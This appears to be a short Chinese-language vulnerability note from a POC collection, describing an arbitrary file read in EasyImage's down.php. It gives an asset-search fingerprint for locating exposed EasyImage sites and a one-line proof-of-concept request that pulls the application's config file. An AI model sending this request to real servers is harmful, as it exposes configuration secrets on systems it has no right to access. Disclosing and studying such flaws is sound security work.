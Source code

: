 # 

# EasyImage down.php 任意文件读取漏洞

## 漏洞描述

EasyImage down.php 文件存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器任意文件

## 漏洞影响

```
EasyImage
```

## 网络测绘

```
app="EasyImage-简单图床"
```

## 漏洞复现

主页面

![image-20230417094057151](images/image-20230417094057151.png)

验证POC

```
/application/down.php?dw=./config/config.php
```

![image-20230417094115549](images/image-20230417094115549.png)
